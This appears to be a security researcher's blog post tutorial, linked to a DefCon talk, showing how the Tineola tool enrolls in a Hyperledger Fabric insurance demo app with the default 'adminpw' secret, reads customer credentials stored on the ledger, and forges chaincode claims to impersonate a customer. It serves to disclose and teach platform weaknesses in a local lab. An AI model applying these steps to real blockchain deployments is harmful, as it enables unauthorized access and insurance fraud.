We recently presented our tool at the DefCon 26 conference in Vegas. Amazing time was had. We had a friendly crowd at our talk [Tineola: Taking a Bite Out of Enterprise Blockchain](https://www.defcon.org/html/defcon-26/dc-26-speakers.html#Riedesel). You can see our [slides](https://github.com/tineola/tineola/blob/master/docs/Tineola-Slides-Defcon26.pdf) and [whitepaper](https://github.com/tineola/tineola/blob/master/docs/TineolaWhitepaper.pdf) in the repository. The tool is released under MIT and is at: 

* https://github.com/tineola/tineola

During the talk Stark demoed our tool and showed how to completely break the [Build Blockchain Insurance App](https://github.com/IBM/build-blockchain-insurance-app). You can see the videos on the [DefCon Media Server](https://media.defcon.org/DEF%20CON%2026/DEF%20CON%2026%20presentations/Stark%20Riedesel%20and%20Parsia%20Hakimian/DEFCON-26-Stark-Riedesel-and-Parsia-Hakimian-Demo-Videos/), the slides on that server are outdated.

This blog post will teach you how to use Tineola and commit insurance fraud.

<!--more-->

# Setup
This guide assumes you start with a clean Ubuntu 16 VM although it will most likely work on most distros.

If you have previous Fabric images and containers in the VM, you can delete them all with `docker images -a`.

## Pre-requisites
In this section we discuss installing the insurance app and dependencies for Tineola and Fabric.

### Install Node.js 8.x and npm
Using instructions at [nodejs.org](https://nodejs.org/en/download/package-manager/#debian-and-ubuntu-based-linux-distributions):

```
curl -sL https://deb.nodesource.com/setup_8.x | sudo -E bash -
sudo apt-get install -y nodejs
```

This will install both Node and npm:

```
$ node -v
v8.11.4
$ npm -v
5.6.0
```

### Install Build Blockchain Insurance App
Follow the instructions at https://github.com/IBM/build-blockchain-insurance-app.

``` bash
git clone https://github.com/IBM/build-blockchain-insurance-app

cd build-blockchain-insurance-app
```

The application has a bug. The name of the docker network in the `peer-base.yaml` file is different from the network at run-time. For more information, see troubleshooting section.

Open `build-blockchain-insurance-app/peer-base.yaml`. You should see:

``` yaml
version: '2'

services:
  peer-base:
    environment:
    - CORE_VM_ENDPOINT=unix:///host/var/run/docker.sock
    - CORE_VM_DOCKER_HOSTCONFIG_NETWORKMODE=build-blockchain-insurance-app_default
```

Change the name of the network to `buildblockchaininsuranceapp_default`:

``` yaml
version: '2'

services:
  peer-base:
    environment:
    - CORE_VM_ENDPOINT=unix:///host/var/run/docker.sock
    - CORE_VM_DOCKER_HOSTCONFIG_NETWORKMODE=buildblockchaininsuranceapp_default
```

Start the application with:

```
./build_ubuntu.sh
```

Wait for everything to be downloaded and started. It will take a while especially if you are downloading Fabric images.

To check the web interface, run `docker logs web`.

``` bash
$ docker logs web

> blockchain-for-insurance@2.1.0 serve /app
> cross-env NODE_ENV=production&&node ./bin/server

/app/app/static/js
Server running on port: 3000
Default channel not found, attempting creation...
Successfully created a new default channel.
Joining peers to the default channel.
```

**Important Note:** When stopping the application, use `docker-compose stop`, `down` will remove the containers and all history will be destroyed. To resume the application run `docker-compose start`.

## Install and Run Tineola
[Tineola](https://github.com/tineola/tineola) is a Node.js application.

``` bash
git clone https://github.com/tineola/tineola
cd tineola; npm install
cd bin; ./tineola.js
```

# Hacking the Insurance App
Insurance app and Tineola are up and running, it's time for action.

## Characters
Moving forward, we are Tom. Tom is an employee of RepairShop Inc.. RepairShop Inc. has joined a fancy blockchain-based insurance system. Tom wants to commit insurance fraud and make some coin.

Carol is the victim. She buys items from the shop and insures them.

## Setting up Tineola with the Insurance App
We need three pieces of information:

* Endpoints of repairshop CA, peer, and their GRPCs/HTTPs ports.
* Enrollment secret (also called admin password).
* Membership Service Provider (MSP) name.

Note: In this setup, we are running everything locally and we have access to all peers. In the real world, Tom only has access to the repairshop peers.

### Repairshop Endpoints
In the real world, Tom already knows this (or could ask repairshop's IT). In our setup we can use docker:

```
$ docker ps --format "table {{.ID}}\t{{.Image}}\t{{.Ports}}\t{{.Names}}"
CONTAINER ID        IMAGE              PORTS                                              NAMES
b1e58f1323fc        dev-insurance-peer-bcins-v2-[[truncated]]                             dev-insurance-peer-bcins-v2
578bdbd93591        police-peer        0.0.0.0:10051->7051/tcp, 0.0.0.0:10053->7053/tcp   police-peer
663f5e708c5e        repairshop-peer    0.0.0.0:9051->7051/tcp, 0.0.0.0:9053->7053/tcp     repairshop-peer
bef1e8f600e2        shop-peer          0.0.0.0:8051->7051/tcp, 0.0.0.0:8053->7053/tcp     shop-peer
120966cd0b23        insurance-peer     0.0.0.0:7051->7051/tcp, 0.0.0.0:7053->7053/tcp     insurance-peer
22cbea63f2d3        insurance-ca       0.0.0.0:7054->7054/tcp                             insurance-ca
a61a732844ff        shop-ca            0.0.0.0:8054->7054/tcp                             shop-ca
922f49463d19        orderer            0.0.0.0:7050->7050/tcp                             orderer0
d06cc537331c        police-ca          0.0.0.0:10054->7054/tcp                            police-ca
20308fb65c86        repairshop-ca      0.0.0.0:9054->7054/tcp                             repairshop-ca
```

Side note: I did not know `docker` CLI supports format strings based on Go templates. See more here: https://docs.docker.com/engine/reference/commandline/ps/#formatting

Repairshop servers are:

* CA: `repairshop-ca      0.0.0.0:9054->7054/tcp`.
    * Container is listening externally on port `9054` on all interfaces and it's mapped to internal port `7054`.
* Peer: `repairshop-peer    0.0.0.0:9051->7051/tcp, 0.0.0.0:9053->7053/tcp`.
    * `9051` is the GRPCs port and `9053` is the event service. In this tutorial, we only care about `9051`.

Note: Alternatively we could run `docker inspect image-name` to get the IP address of each container. In this example, `repairshop-ca` was `172.18.0.2`. This means can be contacted either at `localhost:9054` or `172.18.0.2:7054`.

### Enrollment Secret
The secret should only be known to the organization admin. Tom being an employee of repairshop could ask IT or get it from any number of places.

In our setup, it is in:

* `build-blockchain-insurance-app/repairShopCA/fabric-ca-server-config.yaml`

You can see a copy of it on Github at:

* https://github.com/IBM/build-blockchain-insurance-app/blob/master/repairShopCA/fabric-ca-server-config.yaml

If this is modified, the relevant part of the content is:

``` yaml
registry:
  maxenrollments: -1
  identities:
  - name: admin
    pass: adminpw
    type: client
    affiliation: ""
    maxenrollments: -1
```

* Administrator is named `admin` (this is case-sensitive).
* Password or enrollment secret is `adminpw`.
* `maxenrollments` is `-1` meaning this password can be used to enroll an unlimited number of certificates (more on that later).

Why is this bad?

* This is a simple and predictable password. In fact, all Fabric samples and all other applications based on Fabric use the same combination.
* The password is shared between all organizations. If Tom can access other organization CA (and there's a high chance they are internet accessible), he can enroll and join other organizations.
* `maxenrollments` limit is tricky. On one hand, unlimited is risky but on the other hand, operators do not want to lose access to the network (or re-build it) when they run out of enrollments.

### MSP ID
To read more about MSP, please see Fabric docs:

* https://hyperledger-fabric.readthedocs.io/en/latest/msp.html

We can see repairshop's MSP ID in the following file:

* https://github.com/IBM/build-blockchain-insurance-app/blob/master/web/www/blockchain/config.js

``` js
const config = {
  // ...
  repairShopOrg: {
    peer: {
      hostname: 'repairshop-peer',
      url: 'grpcs://repairshop-peer:7051',
      pem: readCryptoFile('repairShopOrg.pem'),
      eventHubUrl: 'grpcs://repairshop-peer:7053',
    },
    ca: {
      hostname: 'repairshop-ca',
      url: 'https://repairshop-ca:7054',
      mspId: 'RepairShopOrgMSP'
    },
    // ...
  }
};
```

* MSP ID is `RepairShopOrgMSP`.

## Enrolling in the Repairshop
Now we have all the information to enroll in the repairshop organization by acquiring a certificate signed by `repairshop-ca`. Currently, Fabric's authentication/authorization is based on x509.

Switch to the terminal with Tineola. Remember Tineola has auto-complete and help.

First, select the repairshop CA server with `ca-set`.

```
tineola$ ca-set https://localhost:9054
Set CA to https://localhost:9054
Clearing all context
```

Then set the username, we know it's `admin`.

```
tineola$ user-set admin
Certificate for admin not found in local key store. Use ca-enroll command
```

And finally, we can enroll and get a certificate (via the good ole' CSR).

```
tineola$ ca-enroll adminpw RepairShopOrgMSP
Successfully signed new certificate with ca-server
Set user context to admin
```

Tineola stores keys/certificates in `bin/.hfc-key-store`:

```
~/Desktop/tineola/bin$ ll .hfc-key-store/
total 16
drwxrwxr-x 3 testuser testuser 4096 Aug 19 20:34 ./
drwxrwxr-x 3 testuser testuser 4096 Aug 19 20:34 ../
-rw-rw-r-- 1 testuser testuser  246 Aug 19 20:34 c3d013591bb50fc0a8a8bbfc0e680c07ffbce4804912968d00128cd4b5559660-priv
drwxrwxr-x 2 testuser testuser 4096 Aug 19 20:34 httpslocalhost9054/
```

Tineola stores cryptographic materials for each endpoint individually. This means we can switch between organizations without having to re-enroll. Inside `httpslocalhost9054`:

```
~/Desktop/tineola/bin$ ll .hfc-key-store/httpslocalhost9054/
total 20
drwxrwxr-x 2 testuser testuser 4096 Aug 19 20:34 ./
drwxrwxr-x 3 testuser testuser 4096 Aug 19 20:34 ../
-rw-rw-r-- 1 testuser testuser  987 Aug 19 20:34 admin
-rw-rw-r-- 1 testuser testuser  246 Aug 19 20:34 c3d013591bb50fc0a8a8bbfc0e680c07ffbce4804912968d00128cd4b5559660-priv
-rw-rw-r-- 1 testuser testuser  182 Aug 19 20:34 c3d013591bb50fc0a8a8bbfc0e680c07ffbce4804912968d00128cd4b5559660-pub
```

The certificate is inside the `admin` file in PEM encoding:

```
{
	"name": "admin",
	"mspid": "RepairShopOrgMSP",
	"roles": null,
	"affiliation": "",
	"enrollmentSecret": "",
	"enrollment": {
		"signingIdentity": "c3d013591bb50fc0a8a8bbfc0e680c07ffbce4804912968d00128cd4b5559660",
		"identity": {
			"certificate": "-----BEGIN CERTIFICATE-----\n
            MIIB/TCCAaSgAwIBAgIUdUf3I18qwPBoTYuvQr1SgB2a2HgwCgYIKoZIzj0EAwIw\n
            bzELMAkGA1UEBhMCVVMxEzARBgNVBAgTCkNhbGlmb3JuaWExFjAUBgNVBAcTDVNh\n
            biBGcmFuY2lzY28xFzAVBgNVBAoTDnJlcGFpcnNob3Atb3JnMRowGAYDVQQDExFj\n
            YS5yZXBhaXJzaG9wLW9yZzAeFw0xODA4MjAwMDMwMDBaFw0xOTA4MjAwMDM1MDBa\n
            MCExDzANBgNVBAsTBmNsaWVudDEOMAwGA1UEAxMFYWRtaW4wWTATBgcqhkjOPQIB\n
            BggqhkjOPQMBBwNCAATcZK11lpDyKu2ESxBAlS7ltNL/zWHj6G82a2oKBRsjKdty\n
            2ir/GPLSrLb/jhDrHAx9MMVaWZC/jByCHGcGSuSDo2wwajAOBgNVHQ8BAf8EBAMC\n
            AgQwDAYDVR0TAQH/BAIwADAdBgNVHQ4EFgQURBiSCM+e1ArfOsSPZ5BPbY81Fp4w\n
            KwYDVR0jBCQwIoAg6YDikby/wwJe1GfNSRgiNCSO3SCxaf7Vt0oqevkOEZswCgYI\n
            KoZIzj0EAwIDRwAwRAIga0w35w9HXkao6ob1Q8J4uiHlrB36EMAfDh9KK5p/lccC\n
            IFgkenhpcnReXXitIL9aewqht8/qA2pqYL3zbDM04925\n
            -----END CERTIFICATE-----\n"
		}
	}
}
```

we can store it in a file and read it with OpenSSL:

```
$ openssl x509 -in admin-cert.pem -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            75:47:f7:23:5f:2a:c0:f0:68:4d:8b:af:42:bd:52:80:1d:9a:d8:78
    Signature Algorithm: ecdsa-with-SHA256
        Issuer: C=US, ST=California, L=San Francisco, O=repairshop-org, CN=ca.repairshop-org
        Validity
            Not Before: Aug 20 00:30:00 2018 GMT
            Not After : Aug 20 00:35:00 2019 GMT
        Subject: OU=client, CN=admin
        Subject Public Key Info:
            Public Key Algorithm: id-ecPublicKey
                Public-Key: (256 bit)
                pub: 
                    04:dc:64:ad:75:96:90:f2:2a:ed:84:4b:10:40:95:
                    2e:e5:b4:d2:ff:cd:61:e3:e8:6f:36:6b:6a:0a:05:
                    1b:23:29:db:72:da:2a:ff:18:f2:d2:ac:b6:ff:8e:
                    10:eb:1c:0c:7d:30:c5:5a:59:90:bf:8c:1c:82:1c:
                    67:06:4a:e4:83
                ASN1 OID: prime256v1
                NIST CURVE: P-256
        X509v3 extensions:
            X509v3 Key Usage: critical
                Certificate Sign
            X509v3 Basic Constraints: critical
                CA:FALSE
            X509v3 Subject Key Identifier: 
                44:18:92:08:CF:9E:D4:0A:DF:3A:C4:8F:67:90:4F:6D:8F:35:16:9E
            X509v3 Authority Key Identifier: 
                keyid:E9:80:E2:91:BC:BF:C3:02:5E:D4:67:CD:49:18:22:34:24:8E:DD:20:B1:69:FE:D5:B7:4A:2A:7A:F9:0E:11:9B

    Signature Algorithm: ecdsa-with-SHA256
         30:44:02:20:6b:4c:37:e7:0f:47:5e:46:a8:ea:86:f5:43:c2:
         78:ba:21:e5:ac:1d:fa:10:c0:1f:0e:1f:4a:2b:9a:7f:95:c7:
         02:20:58:24:7a:78:69:72:74:5e:5d:78:ad:20:bf:5a:7b:0a:
         a1:b7:cf:ea:03:6a:6a:60:bd:f3:6c:33:34:e3:dd:b9
```

## Connecting to Repairshop Peer
Our newly acquired certificate enables us to connect to peers in the repairshop organization. Target peer is at `grpcs://localhost:9051`.

``` bash
tineola$ peer-set grpcs://localhost:9051
Connecting to peer grpcs://localhost:9051
Retrieving server keys from peer and CA server.
    If this fails please pass a chain file with the --pem option.
Successfully connected to peer
```

### Troubleshooting peer-set
This is the moment of truth. If anything has gone wrong, we will get an error here. This usually means, our certificate is not correct or we are not connecting to the correct peer or GRPCs port. If the certificate is bad, exit Tineola, delete `/bin/.hfc-key-store`, and try again.

A common mistake is using the wrong MSP ID or connecting to the wrong peer:

```
tineola$ peer-set grpcs://localhost:9051
Connecting to peer grpcs://localhost:9051
Retrieving server keys from peer and CA server. If this fails please pass a chain file
    with the --pem option.
E0819 19:47:13.322950592   15468 ssl_transport_security.cc:989] Handshake failed
    with fatal error SSL_ERROR_SSL: error:14090086:SSL routines:ssl3_get_server_certificate:certificate verify failed.
error: [client-utils.js]: sendPeersProposal - Promise is rejected: Error: 14 UNAVAILABLE: Connect Failed
    at new createStatusError (/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:64:15)
    at /home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:583:15
error: [Client.js]: Failed Channels Query. Error: Error: 14 UNAVAILABLE: Connect Failed
    at new createStatusError (/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:64:15)
    at /home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:583:15
Error: 14 UNAVAILABLE: Connect Failed
```

## Tineola Automation
After getting a certificate, we do not need to enroll anymore in the same CA and MSP. However, we need to `set-ca` and `user-set` every time Tineola is started. Commands can be automated. When Tineola is started, it loads a file named `.tineola-rc` (note the preceding `.`) and will execute the commands inside it.

Exit Tineola and create `.tineola-rc` in the `bin` directory (file should be in the same path as `tineola.js`) with the following content:

```
ca-set https://localhost:9054
user-set admin
peer-set grpcs://localhost:9051
```

Run Tineola:

```
~/Desktop/tineola/bin$ ./tineola.js 
Loaded HLF client
Loading tineola-rc
tineola$ ca-set https://localhost:9054
Set CA to https://localhost:9054

tineola$ user-set admin
Found user certificate for admin from local key store

tineola$ peer-set grpcs://localhost:9051
Connecting to peer grpcs://localhost:9051
Retrieving server keys from peer and CA server. If this fails please pass a chain file
    with the --pem option.
Successfully connected to peer

tineola$

  Commands:

// [removed]
```

## Exploring repairshop-peer
Successfully connecting to a peer enables a new set of commands.

### List Channels
Each peer can be a member of one or more channels. Each channel has its own ledger and one or more chaincodes.

```
tineola$ peer-list-channels
┌────────────┐
│ Channel ID │
├────────────┤
│ default    │
└────────────┘
```

### Join Channel
We can join the only channel in the Insurance app with `channel-set`. This command automatically runs `channel-info` to display information about the channel.

```
tineola$ channel-set default
┌─────────────────────┬──────────────────────────────────────────────────────────────────┐
│ Name                │ default                                                          │
├─────────────────────┼──────────────────────────────────────────────────────────────────┤
│ Height              │ 2                                                                │
├─────────────────────┼──────────────────────────────────────────────────────────────────┤
│ Current Block Hash  │ 62b601e92d5e04f16b6dae30cf56bf2e411db2c304ec72ae6925204f33946012 │
├─────────────────────┼──────────────────────────────────────────────────────────────────┤
│ Previous Block Hash │ a03b38ed66ee81fe23964fba523402550a70b14c2142fa260f8052e1757c5353 │
└─────────────────────┴──────────────────────────────────────────────────────────────────┘
Channel connected
```

**Block Height** is the number of blocks on the ledger. Remember it starts from 1, while actual blocks start from 0. We have not interacted with the application yet, so the channel only has two blocks.

### Read Blocks
We can read individual blocks by number.



Block 0 is also called the **Genesis Block**.

Let's look at the next block.



See all the weird characters at the start of the block? You can pass `--base64` to encode non-printable bytes. This command encodes any payload that does not have printable bytes.



Insurance contracts stored on the ledger.

``` json
{
    "uuid": "63ef076a-33a1-41d2-a9bc-2777505b014f",
    "shop_type": "B",
    "formula_per_day": "price * 0.01 + 0.05",
    "max_sum_insured": 4300,
    "theft_insured": true,
    "description": "Contract for Mountain Bikers",
    "conditions": "Contract Terms here",
    "min_duration_days": 1,
    "max_duration_days": 7,
    "active": true
},
{
    "uuid": "1d640cf7-9808-4c78-b7f0-55aaad02e9e5",
    "shop_type": "B",
    "formula_per_day": "price * 0.02",
    "max_sum_insured": 3500,
    "theft_insured": false,
    "description": "Insure Your Bike",
    "conditions": "Simple contract terms.",
    "min_duration_days": 3,
    "max_duration_days": 10,
    "active": true
},
{
    "uuid": "17210a72-f505-42bf-a238-65c8898477e1",
    "shop_type": "P",
    "formula_per_day": "price * 0.001 + 5.00",
    "max_sum_insured": 1500,
    "theft_insured": true,
    "description": "Phone Insurance Contract",
    "conditions": "Exemplary contract terms here.",
    "min_duration_days": 5,
    "max_duration_days": 10,
    "active": true
},
{
    "uuid": "17d773dc-2624-4c22-a478-87544dd0a17f",
    "shop_type": "P",
    "formula_per_day": "price * 0.005 + 10.00",
    "max_sum_insured": 2500,
    "theft_insured": true,
    "description": "Premium SmartPhone Insurance",
    "conditions": "Only for premium phone owners.",
    "min_duration_days": 10,
    "max_duration_days": 20,
    "active": true
},
{
    "uuid": "d804f730-8c77-4583-9247-ec9e753643db",
    "shop_type": "S",
    "formula_per_day": "25.00",
    "max_sum_insured": 5000,
    "theft_insured": false,
    "description": "Short-Term Ski Insurance",
    "conditions": "Simple contract terms here.",
    "min_duration_days": 3,
    "max_duration_days": 25,
    "active": true
},
{
    "uuid": "dcee27d7-bf3c-4995-a272-8a306a35e51f",
    "shop_type": "S",
    "formula_per_day": "price * 0.001 + 10.00",
    "max_sum_insured": 3000,
    "theft_insured": true,
    "description": "Insure Ur Ski",
    "conditions": "Just do it.",
    "min_duration_days": 1,
    "max_duration_days": 15,
    "active": true
},
{
    "uuid": "c06f95d6-9b90-4d24-b8cb-f347d1b33ddf",
    "shop_type": "BPS",
    "formula_per_day": "50",
    "max_sum_insured": 3000,
    "theft_insured": false,
    "description": "Universal Insurance Contract",
    "conditions": "Universal Contract Terms here. For all types of goods.",
    "min_duration_days": 1,
    "max_duration_days": 10,
    "active": true
}
```

### Read Multiple Blocks
`channel-history` displays multiple blocks. There are three ways to use it:

* Supply start and end block numbers.
* Supply just a start block number to display that block and all subsequent ones until the end of the ledger.
* List last n blocks with `--last n`.

## How Insurance App Works
Using this basic commands, we can understand how the insurance app works.

### Buying Insurance
Open a browser and go to http://localhost:3000. The workflow starts with the `Shop` peer at http://localhost:3000/shop. Buy any item and insure it.



The system responds with credentials. Users can use these to sign into the claim self-service portal.


Let's see what was stored on the ledger. Seems like we have one new block:


The contract is created by storing this JSON object:

``` json
contract_create({
	"contract_type_uuid": "1d640cf7-9808-4c78-b7f0-55aaad02e9e5",
	"username": "carol@example.com",
	"password": "pass69",
	"first_name": "Carol",
	"last_name": "Smith",
	"item": {
		"id": 0,
		"brand": "Canyon",
		"model": "Spectral AL 6.0",
		"price": 3420,
		"serial_no": "7SZSO"
	},
	"start_date": "2018-08-19T04:00:00.000Z",
	"end_date": "2018-08-27T04:00:00.000Z",
	"uuid": "cff9ac6c-abb9-4dff-91f7-7dc0ad5421c6"
})
```

User credentials are stored on the ledger. All organizations have read/write access to this channel.

### Submitting a Claim
Claims are submitted via the "Claim Self-Service" portal at http://localhost:3000/insurance/self-service.



### Processing Claims
The insurance company has to process the claim. Insurance agent logs into http://localhost:3000/insurance/claim-processing and can process claims.



Click on `Repair` to send it to the repairshop. This will change the claim status in the self-service portal.



A new block has been added to the ledger.



The claim is now processed and its status has been modified to `R`.

``` json
claim_process({
	"contract_uuid": "cff9ac6c-abb9-4dff-91f7-7dc0ad5421c6",
	"uuid": "40c30b6b-ffe8-40a6-85e6-8c3556429f8a",
	"status": "R",
	"reimbursable": 0
})
```

Note `contract_uuid` was created during `contract_create` and `uuid` was created by `claim_file`.

### Complete Repairs
After logging into the repairshop at http://localhost:3000/repair-shop we can see the claim and can mark it complete.



``` json
repair_order_complete({
    "uuid":"40c30b6b-ffe8-40a6-85e6-8c3556429f8a"
})
```

### Theft vs. Not-Theft
If the checkbox for "Theft" is enabled when the claim is filed (`is_theft` is set to `true`), police peer must verify it.

``` json
claim_file({
	"contract_uuid": "f5b4a85b-62d8-47f0-bdac-3f368d0ef465",
	"date": "2018-08-21T00:16:29.336Z",
	"description": "Got stolen",
	"is_theft": true,
	"uuid": "6d3aa67b-b01a-4025-ad63-f3e5b4728002"
})
```

After police processing:

``` json
theft_claim_process({
	"uuid": "6d3aa67b-b01a-4025-ad63-f3e5b4728002",
	"contract_uuid": "f5b4a85b-62d8-47f0-bdac-3f368d0ef465",
	"is_theft": true,
	"file_reference": "POLICE-REFERENCE-1"
})
```

### Claim Rejection By Insurance
Claims can be rejected by insurance or the police. If the claim is rejected by the insurance, status changes to `J`.

``` json
claim_process({
	"contract_uuid": "f5b4a85b-62d8-47f0-bdac-3f368d0ef465",
	"uuid": "6d3aa67b-b01a-4025-ad63-f3e5b4728002",
	"status": "J",
	"reimbursable": 0
})
```

And it shows up as rejected in self-service:



### Claim Rejection By Police
The police can reject claims with theft. Rejection by police is different from insurance. It does not change the status.

``` json
theft_claim_process({
	"uuid": "e7a40ebb-17d5-420e-9f98-1324419443a9",
	"contract_uuid": "a0644dcf-bf85-41d4-aab3-e026419f46eb",
	"is_theft": false,
	"file_reference": "POLICE-REJECTION-REFERENCE-1"
})
```



Police rejection is the same as acceptance except `is_theft` is set to `false`. This tells the application claim was rejected. Note the web application does not show who rejected the claim explicitly (only reference is provided).

### Claim Reimbursement
Insurance can also reimburse claims instead of sending them to repairshop. If this happens, Carol can commit insurance fraud (if she can participate in Fabric network or if she and Tom are conspirators).

``` json
claim_process({
	"contract_uuid": "16ee32fb-6360-4f96-b897-b77883ce8496",
	"uuid": "8f7ae47e-5a5c-4ccf-b668-a397fbe0f678",
	"status": "F",
	"reimbursable": 200
})
```

The status has changed to `F` and `reimbursable` is set to the amount.


## Committing Insurance Fraud
Now Tom knows how the application works and has gotten pretty good with Tineola. Tom waits until Carol buys another item with insurance.


``` json
contract_create({
	"contract_type_uuid": "1d640cf7-9808-4c78-b7f0-55aaad02e9e5",
	"username": "carol3@example.net",
	"password": "pass65",
	"first_name": "Carol3",
	"last_name": "Smith",
	"item": {
		"id": 2,
		"brand": "Popal",
		"model": "E-VO9.0",
		"price": 4050,
		"serial_no": "L12QO"
	},
	"start_date": "2018-08-20T04:00:00.000Z",
	"end_date": "2018-08-29T04:00:00.000Z",
	"uuid": "0a07f4c6-fa49-4ba5-9c2a-b609eb4a3d37"
})
```

### Impersonating Carol - Method 1
Tom reads the ledger and discovers Carol's credentials. Tom logs into the claim self-service.


Tom submits a claim.


``` json
claim_file({
	"contract_uuid": "0a07f4c6-fa49-4ba5-9c2a-b609eb4a3d37",
	"date": "2018-08-21T02:04:11.845Z",
	"description": "Hello this is Carol. My item broke :(",
	"is_theft": false,
	"uuid": "4be9f83b-494c-48ec-8cc5-d8ddad219c0c"
})
```

### Impersonating Carol - Method 2
If Carol's credentials are not known, Tom can still impersonate her by calling the Chaincode directly and invoking `claim_file`. The insurance app Chaincode does not have any authorization checks. Any node can invoke any function.

Let's buy another item as carol (this time `carol4`) and mess with that.


``` json
contract_create(
{
	"contract_type_uuid": "c06f95d6-9b90-4d24-b8cb-f347d1b33ddf",
	"username": "carol4@example.net",
	"password": "secret75",
	"first_name": "Carol4",
	"last_name": "Smith",
	"item": {
		"id": 2,
		"brand": "Sony",
		"model": "Z",
		"price": 410,
		"serial_no": "OA3EG7"
	},
	"start_date": "2018-08-20T04:00:00.000Z",
	"end_date": "2018-08-26T04:00:00.000Z",
	"uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3"
})
```

### Invoking Chaincode with Tineola
By reading the ledger, Tom knows the Chaincode ID (or name) is `bcins` (see the `CC ID` column in screenshots). He also knows how the single parameter for `claim_file` invocation is formatted. Tom creates a new payload as follows:

* Replaces `contract_uuid` from `contract_create` transaction
* Modifies the `date` (Tom chooses a date after purchase to cover his tracks)
* Sets `is_theft` to `false` because Tom does not want to involve the Police
* Generates a random `uuid` for the claim.

``` json
claim_file({
	"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
	"date": "2018-08-21T02:14:11.259Z",
	"description": "This is Carol4. My item broke.",
	"is_theft": false,
	"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"
})
```

Tom can use the `channel-query-cc` command to invoke Chaincode. But he does not know if his payload is correctly formatted. He can do a test run.

**In Fabric clients can run transactions but not order them (add them to the blockchain).** Tom can just call a Chaincode function but not write it to the ledger. If the transaction has errors, it will. `channel-query-cc` without the `--invoke` switch, does this. Tom also remembers to remove all the new lines from payloads.

Tom calls the `claim_file` Chaincode with the following payload:

``` json
{"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3","date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.","is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}
```

The commands look like this in Tineola:

``` json
tineola$ channel-query-cc bcins claim_file
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
    "date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.",
    "is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}
CC Response:

tineola$
```

`CC Response` is empty (payload's last line and CC response are both on the last line):


This Chaincode invocation does not return anything when it's successfully executed. We can see it in [fileClaim](https://github.com/IBM/build-blockchain-insurance-app/blob/4709539d146c510a933221c68e563f6867b3f09f/web/chaincode/src/bcins/invoke_insurance.
go#L351)

``` go
func fileClaim(stub shim.ChaincodeStubInterface, args []string) pb.Response {
	if len(args) != 1 {
		return shim.Error("Invalid argument count.")
	}

	dto := struct {
		UUID         string    `json:"uuid"`
		ContractUUID string    `json:"contract_uuid"`
		Date         time.Time `json:"date"`
		Description  string    `json:"description"`
		IsTheft      bool      `json:"is_theft"`
	}{}
	err := json.Unmarshal([]byte(args[0]), &dto)
	if err != nil {
		return shim.Error(err.Error())
	}

    // Removed

    // Returns nil if successful.
	return shim.Success(nil)
}
```

When writing Chaincode return success messages. Bad payloads return errors. For example if `contract_uuid` was wrong (did not exist on the ledger):

``` json
tineola$ channel-query-cc bcins claim_file
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "11111111-1111-1111-1111-111111111111",
    "date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.",
    "is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}
error: [client-utils.js]: sendPeersProposal - Promise is rejected: Error: 2 
    UNKNOWN: chaincode error (status: 500, message: Contract could not be found.)
    at new createStatusError (/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:64:15)
    at /home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:583:15
Error: 2 UNKNOWN: chaincode error (status: 500, message: Contract could not be found.)
```

### Ordering Transactions with Tineola
Tom has the correct payload. He can use the `--invoke` switch to run a transaction and order it (send it to the orderer to be written to the blockchain).

Before that, Tom needs to point out the orderer to Tineola with `orderer-set`. `docker ps` displays the orderer's address and port:

```
$ docker ps --format "table {{.ID}}\t{{.Image}}\t{{.Ports}}\t{{.Names}}" | grep -i "orderer"
    2e488404c01c        orderer        0.0.0.0:7050->7050/tcp        orderer0
```

Now Tom knows orderer is at `grpcs://localhost:7050`.

```
tineola$ orderer-set grpcs://localhost:7050
Connecting to orderer grpcs://localhost:7050
Successfully connected to orderer
```

Tom runs the transaction with `--invoke` to order it:

``` json
tineola$ channel-query-cc bcins claim_file --invoke
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
"date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.",
"is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}

Error: 14 UNAVAILABLE: Connect Failed\n at createStatusError
(/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:64:15)\n
at ClientDuplexStream._emitStatusIfDone
(/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:270:19)\n
at ClientDuplexStream._readsDone
(/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:236:8)\n
at readCallback (/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:296:12)"
Error: SERVICE_UNAVAILABLE
tineola$ E0822 21:24:48.413574285   14312 ssl_transport_security.cc:989]
    Handshake failed with fatal error SSL_ERROR_SSL: error:14090086:SSL 
    routines:ssl3_get_server_certificate:certificate verify failed.
    E0822 21:24:50.301026060   14312 ssl_transport_security.cc:989]
    Handshake failed with fatal error SSL_ERROR_SSL: error:14090086:SSL
    routines:ssl3_get_server_certificate:certificate verify failed.
    E0822 21:24:52.771101632   14312 ssl_transport_security.cc:989]
    Handshake failed with fatal error SSL_ERROR_SSL: error:14090086:SSL
    routines:ssl3_get_server_certificate:certificate verify failed.
 
(^C again to quit)
tineola$ 
```

`certificate verify failed` because the orderer's certificate is not accepted. Node's grpc library does not allow programs to ignore certificate errors. In Tineola, Stark mitigated it for peer connections by passing the complete certificate chain from the CA (remember `ca-set`?). However, Tineola does not have access to the complete certificate chain for the Orderer.

